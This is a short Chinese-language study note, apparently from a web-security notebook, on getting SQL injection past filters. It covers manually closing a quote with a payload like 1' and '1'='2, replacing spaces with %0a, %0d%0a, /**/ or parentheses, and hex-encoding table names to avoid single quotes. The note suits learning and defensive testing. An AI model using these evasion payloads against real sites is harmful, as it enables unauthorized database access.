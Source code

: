 


### 注释符绕过

```mysql
# 手动闭合
$sql="select * from users where id='$id';"

$id=1' and '1'='2

select * from users where id='1' and '1'='2';
```



### 空格绕过

- `%0a`

- `%0d%0a`

- `/**/`

- 括号绕过

  > 在MySQL中，括号是用来包围子查询的。因此，任何可以计算出结果的语句，都可以用括号包围起来。而括号的两端，可以没有多余的空格。
  
  ![image-20230522161003063](../../../../images/image-20230522161003063.png)

### 引号绕过

#### 不让用单引号

可以用十六进制代替

```mysql
where(table_name='users') → where(table_name=0x7573657273)
```

![image-20230522163358530](../../../../images/image-20230522163358530.png)
